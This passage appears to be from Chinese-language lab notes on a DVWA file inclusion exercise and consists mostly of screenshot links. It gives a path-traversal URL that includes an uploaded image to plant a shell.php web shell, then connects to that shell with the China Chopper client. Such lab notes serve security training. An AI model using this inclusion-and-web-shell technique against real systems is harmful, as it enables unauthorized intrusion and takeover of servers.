 点击文件包含

```sh
http://192.168.83.146/dvwa/vulnerabilities/fi/?page=../../hackable/uploads/111.png
```

![image-20201112105225603](71、文件包含漏洞/image-20201112105225603.png)

在fi目录下生成shell.php,使用菜刀连接

![image-20201112112606290](71、文件包含漏洞/image-20201112112606290.png)

![image-20201112113003762](71、文件包含漏洞/image-20201112113003762.png)
